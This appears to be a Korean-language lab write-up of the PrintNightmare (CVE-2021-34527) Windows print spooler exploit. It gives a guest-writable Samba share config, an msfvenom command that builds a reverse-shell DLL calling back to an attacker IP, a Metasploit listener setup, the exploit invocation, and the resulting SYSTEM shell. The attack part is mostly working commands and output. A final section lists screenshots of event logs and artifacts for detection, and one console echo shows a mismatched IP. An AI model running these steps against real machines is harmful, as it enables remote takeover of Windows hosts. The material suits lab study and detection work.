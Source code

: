# [목차]
**1. [Environment](#Environment)**

**2. [Setting](#Setting)**

**3. [Exploit](#Exploit)**

**4. [etc](#etc)**


***


# **Environment**

| Type       | OS              | Build     | Core | RAM  | IP            | Exploit Code |
| :---       | :---            | :---      | :--- | :--- | :---          |              |
| Victim     | Windows 10 1903 | 18362.356 | 2    | 4GB  | 192.168.0.114 |              |
| Attacker   | Kali 2019       |           |      |      | 192.168.0.112 | [exploit.py]() |

# **Setting**

spooler 서비스 동작 확인

![](images/2022-05-18-21-39-59.png)


# **Exploit**

SMB 서버의 smb.conf(/etc/samba/smb.conf) 설정 수정

```
[global]
map to guest = Bad User
server role = standalone server
usershare allow guests = yes
idmap config * : backend = tdb
smb ports = 445

[smb]
comment = Samba
path = /tmp/
guest ok = yes
writable = yes
read only = no
browseable = yes
force user = nobody
```

reverse tcp 페이로드 생성

```sh
┌──(root💀kali)-[~]
└─# msfvenom -f dll -p windows/x64/shell_reverse_tcp LHOST=192.168.0.112 LPORT=3333 -o /tmp/evil.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 8704 bytes
Saved as: /tmp/evil.dll
```

SMB 서버 실행

```sh
┌──(root💀kali)-[~/Desktop]
└─# service smbd start                                                   3 ⨯
                                                                             
┌──(root💀kali)-[~/Desktop]
└─# service smbd status
● smbd.service - Samba SMB Daemon
     Loaded: loaded (/lib/systemd/system/smbd.service; disabled; vendor pres>
     Active: active (running) since Thu 2021-07-15 22:20:38 EDT; 1s ago
...
```

metasploit 세션 대기

```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/x64/shell_reverse_tcp
PAYLOAD => windows/x64/shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.0.112
LHOST => 192.168.10.223
msf6 exploit(multi/handler) > set LPORT 3333
LPORT => 3333
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 0.0.0.0:3333
```

Exploit Code 실행

    python3 exploit.py "아이디":"비밀번호"@"공격 대상 IP" "아무 문자열" "\\SMB 서버 IP\공유 폴더 명\실행시킬 악성코드"

```sh
┌──(root💀kali)-[~]
└─# python3 CVE-2021-34527.py user:user@192.168.0.114 a '\\192.168.0.112\smb\evil.dll'
[*] Connecting to ncacn_np:192.168.0.114[\PIPE\spoolss]
[+] Bind OK
[+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_16f13144559407c0\Amd64\UNIDRV.DLL
[*] Executing \??\UNC\192.168.0.112\smb\evil.dll
[*] Try 0...
[*] Stage0: 0
[*] Stage1: 0
[+] Exploit Completed
[*] Stage2: 0
[+] Exploit Completed
[*] Stage3: 0
[+] Exploit Completed
SMB SessionError: STATUS_PIPE_BROKEN(The pipe operation has failed because the other end of the pipe has been closed.)
SMB SessionError: STATUS_PIPE_CLOSING(The specified named pipe is in the closing state.)
...
```

metasploit 세션 확인

```sh
[*] Command shell session 1 opened (192.168.0.112:3333 -> 192.168.0.114:50004) at 2021-07-16 00:32:42 -0400
C:\Windows\system32>whoami
whoami
nt authority\system
```

# **etc**

이벤트뷰어(eventvwr)의 로그 확인

    Windows 로그 > 보안

![](images/2022-05-18-21-48-56.png)

![](images/2022-05-18-21-49-00.png)

![](images/2022-05-18-21-49-04.png)

    Windows 로그 > 응용 프로그램

![](images/2022-05-18-21-49-15.png)

![](images/2022-05-18-21-49-19.png)

    Windows 로그 > 시스템

![](images/2022-05-18-21-49-30.png)

    응용 프로그램 및 서비스 로그 > Microsoft > Windows > SMBClient > Operational

![](images/2022-05-18-21-49-55.png)

process tree 확인

![](images/2022-05-18-21-50-08.png)

prefetch 확인

![](images/2022-05-18-21-50-19.png)

[Reference](https://github.com/cube0x0/CVE-2021-1675)